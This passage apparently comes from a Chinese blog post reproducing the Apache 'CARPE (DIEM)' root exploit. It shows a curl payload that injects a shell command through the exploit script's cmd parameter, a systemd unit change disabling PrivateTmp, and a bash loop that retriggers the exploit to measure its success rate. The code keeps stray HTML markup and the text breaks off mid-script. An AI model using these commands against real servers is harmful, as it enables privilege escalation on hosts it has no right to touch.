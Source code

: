 我的payload是：`curl "http://www.0-sec.org/cfreal-carpediem.php?cmd=id>/tmp/2323232"`

表面上看是执行成功了，但是却并没有在/tmp目录下发现2323232文件，经过随后的研究发现，systemd重定向了apache的tmp目录，执行下`$find /tmp -name "2323232"`就找到文件了，不过只有root用户能访问。如果不想让systemd重定向tmp目录也简单：

    $ cat /lib/systemd/system/apache2.service 
    <span class="o">[</span>Unit<span class="o">]</span>
    <span class="nv">Description</span><span class="o">=</span>The Apache HTTP Server
    <span class="nv">After</span><span class="o">=</span>network.target remote-fs.target nss-lookup.target

    <span class="o">[</span>Service<span class="o">]</span>
    <span class="nv">Type</span><span class="o">=</span>forking
    <span class="nv">Environment</span><span class="o">=</span><span class="nv">APACHE_STARTED_BY_SYSTEMD</span><span class="o">=</span><span class="nb">true</span>
    <span class="nv">ExecStart</span><span class="o">=</span>/usr/sbin/apachectl start
    <span class="nv">ExecStop</span><span class="o">=</span>/usr/sbin/apachectl stop
    <span class="nv">ExecReload</span><span class="o">=</span>/usr/sbin/apachectl graceful
    <span class="nv">PrivateTmp</span><span class="o">=</span><span class="nb">false</span>
    <span class="nv">Restart</span><span class="o">=</span>on-abort

    <span class="o">[</span>Install<span class="o">]</span>
    <span class="nv">WantedBy</span><span class="o">=</span>multi-user.target

### 关于成功率的说法

在exp的注释中看到了说该利用没法100%成功，有失败的概率，所以我写了个脚本进行测试：

    <span class="c1">#!/bin/bash</span>

    <span class="nv">SUCC</span><span class="o">=</span><span class="m">0</span>
    <span class="nv">COUNT</span><span class="o">=</span><span class="m">0</span>
    <span class="k">for</span> i in <span class="k">$(</span>seq <span class="m">1</span> <span class="m">20</span><span class="k">)</span>
    <span class="k">do</span>
    <span class="nb">let</span> <span class="nv">COUNT</span><span class="o">+=</span><span class="m">1</span>
    /etc/init.d/apache2 stop
    sleep <span class="m">1</span>
    /etc/init.d/apache2 start
    <span class="k">if</span> <span class="o">[</span> -f <span class="s2">"/tmp/1982347"</span> <span class="o">]</span><span class="p">;</span><span class="k">then</span>
        rm /tmp/1982347
    <span class="k">fi</span>
    curl <span class="s2">"http://localhost/cfreal-carpediem.php?cmd=id>/tmp/1982347"</span>

    apache2ctl graceful

    sleep <span class="m">1</span>

    <span class="k">if</span> <span class="o">[</span> -f <span class="s2">"/tmp/1982347"</span> <span class="o">]</span><span class="p">;</span><span class="k">then</span>
        <span class="nb">let</span> <span class="nv">SUCC</span><span class="o">+=</span><span class="m">1</span>
    <span class="k">fi</span>
